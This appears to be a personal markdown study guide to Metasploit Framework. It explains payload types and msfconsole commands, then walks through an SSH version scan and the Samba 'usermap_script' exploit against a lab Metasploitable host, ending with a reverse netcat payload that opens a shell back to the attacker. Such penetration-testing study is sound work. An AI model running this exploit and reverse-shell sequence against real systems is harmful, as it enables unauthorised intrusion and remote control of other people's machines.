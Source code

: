 # Metasploit Framework - Setup and Documentations

```
Documentations on the scripts in Metasploit Framework
```

## Information
### Payloads in Metasploit
- 3 Types of Payload
    - Singles : Payloads that are self-contained and standalone
        + Singles do not depend on other programs to run
    - Stagers : Stagers are small programs that *establish and main communications* between the attacker and victim
        + Usually to enable downloading of stages
        - Examples
            + Creating a backdoor
    - Stages : Payload components that are downloaded by the stagers 
        + usually Big
  
- How to understand payload descriptions in Metasploit
    + A single payload : windows/shell_bind_tcp
    - Stager-stages : windows/shell/bind_tcp
        - Where
            + bind_tcp : Stager
            + shell : stage
        - Summary
            + Map stager under the stage
            + *windows/stage/stager*

## Setup
### Pre-Requisites

### Dependencies

### Installing
    
## Documentation
### Scripts/Files
+ msfconsole    : Metasploit Framework's Console Shell
+ msfvenom      : MSF Backdoor utility

### Synopsis/Syntax

- To startup the framework
    ```console
    $> msfconsole [{options} [arguments]...]
    ```
    
### Parameters

### Commands
#### msfconsole
+ search [keyword]              : Look for possible exploits containing the keyword
    ```console
    msf5 > search ssh_version
    ```
+ use [path-to-exploit-script]  : Use a specific expoit, payload or auxiliary
- show [keyword]                : Displays information for the specified keyword
    - Examples
        + show options          : Display options for the current modules
        + show payloads         : Displays all payloads registered
- set [option] [value]          : Configure *option* to have a value of *value*
    - Options
        + PAYLOAD [payload-path]    : Set a payload
        + LHOST [attacker-IP]       : Sets the Local Host; Normally used to create a reverse connection to your machine after the attack succeeds
        + RHOST [target-IP]         : Sets the Remote/Target Host; Refers to the IP address of the target host
+ run [auxiliary-module]        : Execute *auxiliary* mode
+ exploit                       : Start *exploit* modules/execution process
+ back                          : Go back to the original console prompt
+ clear                         : Clear the screen
+ exit                          : Exit from metasploit
+ help                          : Show instructionsl

### Usage

- Information Gathering using Auxiliary Module
    - Launch msfconsole
        ```console
        $> msfconsole
        ```

    - Search ssh_version in msfconsole
        + *search ssh_version*
            ```console
            msf5> search ssh_version
            ```
    - Find a module name returned by Metasploit
        + auxiliary/scanner/ssh/ssh_version

    - Use auxiliary module
        - run *use auxiliary/scanner/ssh/ssh_version*
            + Your mode will be changed to auxiliary mode
            ```console
            msf5 > use auxiliary/scanner/ssh/ssh_version
            ```
            
    - Show options to execute
        + *show options*
            ```console
            msf5 > show options
            ```

    - Set RHOSTS as the target server's IP address (Metasploitable IP)
        + command : *set RHOSTS [target-IP]
        ```console
        msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.0.2.5
        ```
        
    - Execute the auxiliary scanner
        + *run*
        ```console
        msf5 auxiliary(scanner/ssh/ssh_version) > run
        ```

- Samba "usermap script" exploit
    - Sequence of commands
        ```console
        $> msfconsole
        
        msf5 > use exploit/multi/samba/usermap_script
        msf5 > options
        msf5 > set RHOST 10.0.2.5
        msf5 > exploit
        ```
    - Different Payloads
        ```console
        msf5 > show payloads
        ```
    - Reverse Netcat
        + Ask the server to connect to us (Kali)
            ```console
            msf5 > set PAYLOAD cmd/unix/reverse_netcat
            msf5 > show options
            msf5 > set LHOST 10.0.2.4
            msf5 > exploit
            ```

### Terminologies
+ LHOST [attacker-IP]   : Sets the Local Host; Normally used to create a reverse connection to your machine after the attack succeeds
+ RHOST [target-IP]     : Sets the Remote/Target Host; Refers to the IP address of the target host    
+ Attack Vectors        : Methods of attacks
+ Attack Surface Area 	: Amount of loopholes/vulnerabilities/penetration methods in a program


